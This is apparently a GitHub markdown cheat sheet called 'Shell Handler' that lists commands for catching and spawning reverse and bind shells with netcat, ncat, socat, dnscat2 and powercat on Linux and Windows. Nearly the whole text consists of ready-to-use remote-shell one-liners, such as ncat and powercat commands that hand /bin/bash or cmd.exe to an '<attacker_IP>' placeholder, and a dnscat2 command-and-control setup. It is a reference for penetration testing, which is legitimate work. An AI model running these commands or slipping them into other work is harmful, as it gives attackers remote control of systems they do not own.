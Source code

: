 # Shell Handler

## 01 - General

### 1.1 - Netcat

#### 1.1.1 - Reverse shell

- Any listening ports ranging between **1-1023** must be ran as root

`$ nc -lnvp 1024`

`$ sudo nc -lnvp 80`

#### 1.1.2 - Bind shell

`$ nc -lnvp <target_IP> <PORT>`

### 1.2 - Ncat

##### 1.2.1 - TCP Method

`$ ncat <IP> <PORT> -e /bin/bash`

##### 1.2.2 - UDP Method

`$ ncat -u <IP> <PORT> -e /bin/bash`

### 1.3 - Socat

#### 1.3.1 - Reverse Shell

- Shell handler (attacker)

`$ socat tcp-listen:<PORT>,reuseaddr,fork file:`tty`,raw,echo=0`

- Connect to attacker

`$ socat tcp:<attacker_IP>:<PORT> exec:bash,pty,stderr,setsid,sigint,sane`

#### 1.3.2 - Bind Shell

- Shell handler (target)

```
$ socat tcp-listen:<PORT>,reuseaddr,fork exec:bash,pty,stderr,setsid,sigint,sane

$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<PORT>
```

### 1.4 - DNScat

TODO: Provide a usage example with dnscat

#### 1.4.1 - Usage

```
$ sudo ./dnscat2.rb

dnscat2> set security=open
```

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

#### 1.4.2 - Help Menu

```
dnscat2> session -i 1

command session 1> help
```
## 02 - Windows

### 2.1 - Powercat

#### 2.1.1 - Reverse shell

##### 2.1.1.1 - TCP Method

`PS C:\> powercat -c <IP> -p <PORT> -e cmd.exe`

##### 2.1.1.2 - UDP Method

`PS C:\> powercat -u -c <IP> -p <PORT> -e cmd.exe`

#### 2.1.2 - Bind shell

##### 2.1.2.1 - TCP Method

`PS C:\> powercat -l -p <PORT> -e cmd.exe`

##### 2.1.2.2 - UDP Method

`PS C:\> powercat -u -l -p <PORT> -e cmd.exe`

## References

- [DNScat](https://github.com/iagox86/dnscat2)

- [Powercat](https://github.com/besimorhino/powercat)